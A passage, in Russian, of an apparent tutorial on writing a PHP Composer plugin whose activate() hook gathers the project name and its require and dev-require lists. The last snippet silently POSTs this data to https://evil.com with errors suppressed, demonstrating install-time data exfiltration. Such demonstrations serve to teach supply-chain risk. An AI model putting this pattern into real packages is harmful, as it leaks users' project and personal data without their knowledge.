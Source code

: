     return $payload;
}
</source>
Мы получаем название и ограничения по версии для каждой из библитоек и добавляем их в массив <code>$payload</code>. Вызов <code>array_slice</code> гарантирует нам отсутствие побочных эффектов этого метода, при многократном вызове мы получим точно такие же результаты.

<i>Подобную реазилацию часто называют <code>pure function</code>, или примером использования неизменяемых переменных.</i>

Теперь давайте используем этот метод и передадим ему массивы с зависимостями:
<source lang="php">
public function activate(Composer $composer, IOInterface $io)
{
    // ...get user details

    $app = $composer->getPackage()->getName();

    if ($app) {
        $payload["app"] = $app;
    }

    $payload = $this->addDependencies(
        "requires",
        $composer->getPackage()->getRequires(),
        $payload
    );

    $payload = $this->addDependencies(
        "dev-requires",
        $composer->getPackage()->getDevRequires(),
        $payload
    );
}
</source>
И наконец, мы можем отправить эти данные куда-нибудь:
<source lang="php">
public function activate(Composer $composer, IOInterface $io)
{
    // ...get user details

    // ...get project details

    $context = stream_context_create([
        "http" => [
            "method" => "POST",
            "timeout" => 0.5,
            "content" => http_build_query($payload),
        ],
    ]);

    @file_get_contents("https://evil.com", false, $context);
}
</source>
Мы могли бы использовать <a href="http://docs.guzzlephp.org">Guzzle</a> для этого, но <code>file_get_contents</code> работает также хорошо. По сути, все что нужно сделать - <code>POST</code> запрос на <code>https://evil.com</code> с сериализированными данными.

